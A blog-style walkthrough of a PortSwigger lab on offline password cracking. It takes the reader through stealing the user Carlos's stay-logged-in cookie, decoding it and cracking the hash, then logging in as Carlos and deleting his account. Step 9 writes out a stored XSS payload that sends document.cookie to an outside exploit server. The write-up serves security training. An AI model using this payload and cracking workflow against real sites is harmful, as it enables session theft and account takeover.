 ```yaml
---
title: Portswigger writeup - Offline Password Cracking
categories: [writeup,walkthrough,security]
tags: [writeup,walkthrough,portswigger,burp,login,security,password,offline]
---
```


This lab is in the same series than the previous article. The goal here to steal Carlos's "stay-logged-in" cookie to steal and delete his account. 

# **Lab: Offline password cracking**

1. Click “My account button”
    
    ![offline-password-cracking-1.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-1.png)
    
2. Enter Wiener’s credentials, click “stay-logged-in” option and click “Log in”
    
    ![offline-password-cracking- (2).png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-2.png)
    
3. In Proxy > HTTP History, click the the GET reset “/my-account” and click on the arrow on the “stay-logged-in” cookie
    
    ![offline-password-cracking-3.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-3.png)
    
4. The base64 string is decoded: `username:password`O 
    
    ![offline-password-cracking-4.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-4.png)
    
5. Click “Home”
    
    ![offline-password-cracking-5.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-5.png)
    
6. Click a “View post” button
    
    ![offline-password-cracking-6.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-6.png)
    
7. In another tab, open the Exploit Server
    
    ![offline-password-cracking-7.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-7.png)
    
8. Copy its URL
    
    ![offline-password-cracking-8.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-8.png)
    
9. On the post opened at step 6, bottom page, add the following payload (change the URL for your exploit server), as well as random name, email address and website URL. Then click “Post comment”: `<script>document.location='https://exploit-server-url.com'+document.cookie</script>`
    
    ![offline-password-cracking-9.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-9.png)
    
10. Click “Back to blog”
    
    ![offline-password-cracking-10.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-10.png)
    
11. The blog post will be redirected to a similar page (here on Firefox)
    
    ![offline-password-cracking-11).png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-11.png)
    
12. Go back the the exploit server and click “Access log”
    
    ![offline-password-cracking-12.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-12.png)
    
13. A GET reset “/exploitserver” appears in the list, containing a “stay-logged-in” cookie, copy its string
    
    ![offline-password-cracking-13.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-13.png)
    
14. Go to [base64decode.org](http://base64decode.org), paste the string previously copied to decode it and copy the hashed password, after “`carlos:`”
    
    ![offline-password-cracking-14.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-14.png)
    
15. Go to [crackstation.net](http://crackstation.net) and paste the hash to get Carlos’s password
    
    ![offline-password-cracking-15.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-15.png)
    
16. Go back to the lab’s tab and click multiple times on the “Go back” button until you can see the website without being redirected
    
    ![offline-password-cracking-16.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-16.png)
    
17. If needed, click “My account”, according to the point you have reached using the “Go back” button, and click “Log out”
    
    ![offline-password-cracking-17.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-17.png)
    
18. Click “My account” again
    
    ![offline-password-cracking-18.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-18.png)
    
19. Enter “carlos” as a username and the password previously found at step 16 on Crackstation, “onceuponatime”, and click “Log in”
    
    ![offline-password-cracking-19.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-19.png)
    
20. When you are on Carlos’s “My account” page, click “Delete account”
    
    ![offline-password-cracking-20.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-20.png)
    
21. Paste one more time his password as a confirmation and click “Delete account!”
    
    ![offline-password-cracking-21.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-21.png)
    
22. The lab is solved
    
    ![offline-password-cracking-22.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-22.png)